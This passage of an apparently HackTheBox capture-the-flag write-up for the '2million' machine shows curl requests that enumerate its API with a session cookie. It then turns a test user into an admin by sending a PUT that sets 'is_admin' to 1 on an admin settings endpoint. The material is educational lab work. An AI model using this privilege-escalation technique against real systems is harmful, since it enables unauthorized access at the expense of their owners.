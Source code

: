 ```bash
curl -s -X GET "http://2million.htb/api/v1" -v
```

![[get_api_v1.png]]

The response is *Unauthorized*. Using our session cookie, we retry:

```bash
curl -s -X GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" | jq
```

![[get_api_v1_with_cookies.png]]

Now we see two sections: `user` and `admin`.

Checking admin authentication:

```bash
curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" | jq
```

![[current_user_admin_false.png]]

Our user is not admin. Let's try a POST:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" -v
```

![[post_vpn_generate.png]]

We are not authorized again.

---
## 4. Privilege Escalation via API Manipulation

Trying a PUT request to update settings:

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=..." | jq
```

![[post_settings_update_invalid_content_type.png]]

The response indicates `invalid content-type`. After trying several combinations, we fix this with JSON headers:

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" -H "Content-Type: application/json" -d '{"email":"test@test.com", "is_admin":1}' | jq
```

![[convert_test_user_into_admin.png]]
